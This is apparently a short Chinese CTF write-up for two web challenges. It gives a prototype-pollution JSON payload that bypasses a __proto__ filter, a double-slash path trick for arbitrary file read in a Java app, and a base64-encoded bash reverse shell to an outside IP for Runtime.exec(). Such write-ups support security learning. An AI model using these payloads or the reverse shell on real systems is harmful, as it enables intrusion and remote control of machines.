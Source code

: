 # web
### ez_sandbox
#原型链污染 

过滤了 `__proto__`
`constructor.prototype`绕过

先注册一个用户
,在登录时污染admins对象
```json
{"username":"leijk","password":"leijk","constructor":{"prototype":{"leijk":"123"}}}
```

---
vm沙箱不会绕


### auth_bypass
#java
给了源码,审计发现存在任意文件读取,前缀的download使用双斜杠绕过
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211027.png)
读取配置文件web.xml
得到evil路径并读取evilServlet的class源码 `../WEB-INF/classes/com/example/demo/EvilServlet.class`
反编译打开,存在恶意命令执行
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211317.png)

Runtime.exec()单参数命令执行需要修改以下反弹shell的形式
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/

需要urlencode以下字符串
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4yNTUuMTY2LjEyLzgyIDA+JjE=}|{base64,-d}|{bash,-i}
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-21   13:22